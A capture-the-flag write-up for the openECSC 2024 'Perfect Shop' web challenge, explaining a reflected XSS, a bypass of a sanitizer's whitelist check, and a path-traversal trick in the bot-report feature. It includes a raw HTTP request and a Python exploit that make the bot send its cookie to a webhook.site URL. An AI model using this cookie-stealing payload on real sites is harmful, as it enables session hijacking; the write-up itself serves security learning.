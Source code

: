 # openECSC 2024 - Round 1

## [web] Perfect Shop (198 solves)

Do you like perfect things? Check out my new online shop!

Site: [http://perfectshop.challs.open.ecsc2024.it](http://perfectshop.challs.open.ecsc2024.it)

Author: Stefano Alberto <@Xato>

## Overview

The challenge consists of a simple ecommerce website that allows users to view and search a list of items.

Additionally, the application exposes an administration interface that requires access with an unknown password to modify the items.

Finally, it is possible to have one of the available items on the website visited by a bot that has the flag as a cookie

## XSS

The search functionality is vulnerable to a trivial XSS, the searched value is in fact reflected in the page without HTML escaping.

However, the application is protected by a sanitizer, which automatically removes malicious HTML tags from the parameters sent to the server.

## Sanitizer bypass

The sanitizer is configured to use a whitelist of endpoints on which the check should not be performed.
In particular, this list only contains the `/admin` endpoint.

By analyzing how the withelist check is implemented, we can see that this is not done correctly (for the version used by the challenge).

The following line of the code is used by the library to perform the whitelist check.

```
!whiteList.some((v) => req.url.trim().includes(v))
```

In particular, the library does not sanitize if the visited url **contains** a value in the whitelist.

For this reason, sanitization can be avoided by visiting the path `/random?x=/admin`.

Therefore, to trigger the XSS, it is sufficient to visit the path `/search?q=<script>alert(1)</script>&x=/admin`.

## XSS on the bot

The functionality triggering the bot to visit a page allows it only to visit a product page starting from the product id provided in the request.

This value is converted by the `parseInt` function and is verified to be a valid product id.

If the value is valid, the bot makes the visit by constructing the URL to visit with the value provided **before** converting to integer.
In practice, this allows us to make the bot to visit an arbitrary server path, sending as the id to visit a payload similar to `1/../../search?q=aaa`.

By making the bot visit an arbitrary path, we can exploit XSS on the search functionality to steal the cookie containing the flag, while staying under the limit of usable characters.

An example of a payload that can be used to send the cookie to a webhook is given.
Note how it is necessary to include the string `/admin` also in the request to the endpoint to make the report, so that our payload is not sanitized.

```
POST /report?/admin HTTP/1.1
Host: localhost:3000
Content-Length: 223
Origin: http://localhost:3000
Content-Type: application/x-www-form-urlencoded

id=1%2f..%2f..%2fsearch%3ffetch(%60https%3a%2f%2fwebhook.site%2fYOUR-WEBHOOK-HERE%2f%24%7bdocument.cookie%7d%60)%2f%2f%26q%3d%3cscript%3eeval(location.search.slice(1))%3c%2fscript%3eaa%26%2fadmin&message=
```

Triggering the bot to execute the following script.

```html
<script>eval(location.search.slice(1))</script>
```

This allows us to execute an arbitrary payload that we can write at the beginning of the URL while respecting the length limit on the `q` parameter, leaking the flag to our webhook.

## Exploit

```python
import requests
import time
import re
import urllib.parse

chall_url = "http://perfectshop.challs.open.ecsc2024.it"

r = requests.post('https://webhook.site/token')
token_id = r.json()['uuid']

webhook_url = f'https://webhook.site/{token_id}/'

payload = '1/../../search?fetch(`' + webhook_url + '/?${document.cookie}`)//&q=<script>eval(location.search.slice(1))</script>&/admin'
r = requests.post(chall_url + "/report?/admin", data={"id": payload, "message": "x"})

assert 'Report submitted successfully' in r.text

for _ in range(10):
    r = requests.get('https://webhook.site/token/'+ token_id +'/requests')

    for request in r.json()['data']:
        m = re.search(r'openECSC\{.+\}', urllib.parse.unquote(request['url']))
        if (m):
           print(m.group(0))
           exit()
           
    time.sleep(2)
```
